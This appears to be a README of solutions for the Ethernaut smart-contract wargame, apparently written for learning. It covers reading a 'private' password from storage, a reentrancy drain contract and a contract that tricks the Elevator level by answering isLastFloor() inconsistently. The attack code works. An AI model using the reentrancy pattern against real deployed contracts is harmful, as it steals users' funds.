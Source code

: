 # Attack contracts and solutions for Ethernaut levels

## Notes

### Level 08 - Vault

This level demonstrates that all data on the blockchain is public, even if marked as `private` in Solidity.

**Steps to solve:**

1. **Get the contract's storage data**
   - Get the deployed contract address from Ethernaut
   - Use the `cast storage` command to read the value at storage slot 1 (where the password is stored)

   ```bash
   cast storage 0x7f28d1dABCcCB4d88C305Ed18499aa6A8A1F8AD2 1 --rpc-url $SEPOLIA_RPC_URL
   ```

   Result:
   ```
   0x412076657279207374726f6e67207365637265742070617373776f7264203a29
   ```

2. **Decode the password**
   - Convert the hex value to ASCII to see the actual password

   ```bash
   cast to-ascii 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
   ```

   Result:
   ```
   A very strong secret password :)
   ```

3. **Unlock the vault**
   - Call the `unlock()` function with the password as parameter

   ```bash
   cast send 0x7f28d1dABCcCB4d88C305Ed18499aa6A8A1F8AD2 "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --rpc-url $SEPOLIA_RPC_URL
   ```

### Level 10 - Reentrancy
    - The attack exploits a reentrancy vulnerability in the target contract
    - Steps of the attack:
      1. First, we donate ETH to the contract to establish a balance for our attack contract
      2. Then we call withdraw() to start withdrawing our funds
      3. When the target contract sends ETH to our attack contract, it triggers our fallback function
      4. Inside the fallback function, we recursively call withdraw() again before the target contract can update our balance
      5. This creates a loop that drains all funds from the target contract
      6. Once the target contract's balance is less than or equal to our initial donation amount, we withdraw the remaining balance

```solidity
// Key parts of the attack:
function attack() payable public {
    amount = msg.value;
    // First donate to the contract
    CONTRACT.call{value: msg.value}(abi.encodeWithSignature("donate(address)", address(this)));
    // Then withdraw to trigger the reentrancy
    CONTRACT.call(abi.encodeWithSignature("withdraw(uint256)", amount));
}

fallback() external payable {
    // Recursive call to withdraw() before balance is updated
    if (CONTRACT.balance > amount) {
        CONTRACT.call(abi.encodeWithSignature("withdraw(uint256)", amount));
    }
    else if (CONTRACT.balance <= amount) {
        CONTRACT.call(abi.encodeWithSignature("withdraw(uint256)", CONTRACT.balance));
    }
}
```

### Level 11 - Elevator
    - The attack exploits a trust issue in the Elevator contract which relies on an external interface implementation
    - The Elevator contract calls the `isLastFloor()` function of the caller contract twice, expecting consistent behavior
    - Steps of the attack:
      1. We implement the `isLastFloor()` function in our attack contract with state-changing behavior
      2. On the first call, it returns `false` to make the elevator start moving
      3. On the second call, it returns `true` to make the elevator think it reached the top floor
      4. This exploits the fact that the Elevator contract doesn't verify that the Building interface implementation is trustworthy

```solidity
// Key parts of the attack:
bool booly = false;

function attack(uint256 _floor) public {
    (bool success,) = CONTRACT.call(abi.encodeWithSignature("goTo(uint256)", _floor));
    require(success == true, "Tx reverted!");
}

function isLastFloor(uint256) external returns (bool) {
    if(booly == false) {
        booly = true;
        return false;    
    }
    else {
        return true;
    }
}
```
